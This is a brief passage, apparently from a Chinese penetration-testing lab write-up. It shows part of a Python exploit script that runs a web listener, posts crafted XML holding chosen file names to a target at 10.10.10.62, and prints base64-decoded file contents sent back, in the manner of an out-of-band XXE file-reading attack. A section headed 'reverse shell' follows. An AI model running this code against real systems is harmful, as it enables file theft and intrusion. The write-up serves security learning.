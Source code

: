 ```plain
    data = base64.b64decode(b64data).decode().strip()
    if data != prev_data:
        print(data)
        prev_data = data
    return ""


def web():
    app.run(host="0.0.0.0", port=80)


if __name__ == "__main__":
    threading.Thread(target=web, daemon=True).start()
    time.sleep(1)
    #app.run(debug=True, use_reloader=False, host="0.0.0.0", port=80)
    while True:
        try:
            fn = input("file> ")
            xml = xml_template.format(fn)
            requests.post('http://10.10.10.62:56423', data=xml)
        except KeyboardInterrupt:
            print()
```

## 反弹shell

执行脚本来反弹shell

[![](assets/1699929055-f3581562612c8f7a60541e8dd09a6471.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104053-107d2986-81ce-1.png)
